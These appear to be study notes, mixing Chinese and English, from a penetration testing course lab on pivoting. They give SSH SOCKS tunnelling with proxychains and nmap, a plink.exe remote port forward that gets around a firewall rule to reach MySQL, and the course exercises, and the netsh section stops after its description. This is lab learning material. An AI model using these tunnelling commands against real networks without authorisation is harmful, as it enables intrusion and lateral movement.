 ## ssh dynamic port forwarding

debian, compromised, connect to 10 and 192 network，sshd
windows，192 network
kali，ssh to debian，open local port 8080(socks4, -N -D) tunnel all incoming traffic to any host in 192 network; proxychains 代理本地连接

```
ssh -N -D <address to bind to>:<port to bind to> <username>@<SSH server address>

sudo ssh -N -D 127.0.0.1:8080 student@10.11.0.128
sudo proxychains nmap --top-ports=20 -sT -Pn 192.168.1.110

20.2.3.1 Exercises
1. Connect to your dedicated Linux lab client and run the clear_rules.sh script from
/root/port_forwarding_and_tunneling/ as root.
2. Take note of the Linux client and Windows Server 2016 IP addresses.
3. Create a SOCKS4 proxy on your Kali machine, tunneling through the Linux target.
4. Perform a successful nmap scan against the Windows Server 2016 machine through the
proxy.
5. Perform an nmap SYN scan through the tunnel. Does it work? Are the results accurate?
```

## win-remote port forwarding

win，内网，防火墙规则禁止直接访问3306
kali，外网；sshd, 已有win shell
通过plink 绕过限制，访问3306

plink,windows-based command line ssh client.
http://the.earth.li/~sgtatham/putty/0.53b/htmldoc/Chapter7.html

```
//-R remote port forward
plink.exe -ssh -l kali -pw password -R kaliip:kaliport:127.0.0.1:3306 kaliip

//交互提示是否存储key导致失败，
cmd.exe /c echo y | plink.exe -ssh -l kali -pw password -R kaliip:kaliport:127.0.0.1:3306 kaliip

sudo nmap -sS -sV 127.0.0.1 -p 1234

20.3.1.1 Exercises
1. Obtain a reverse shell on your Windows lab client through the Sync Breeze vulnerability.
2. Use plink.exe to establish a remote port forward to the MySQL service on your Windows 10
client.
3. Scan the MySQL port via the remote port forward.
```

## win-netsh
win10， compromised on  ip 10.xx， 接入 192.xx 网络
win16,445端口开放，192网段
通过win10 本地端口转发，访问win16 445
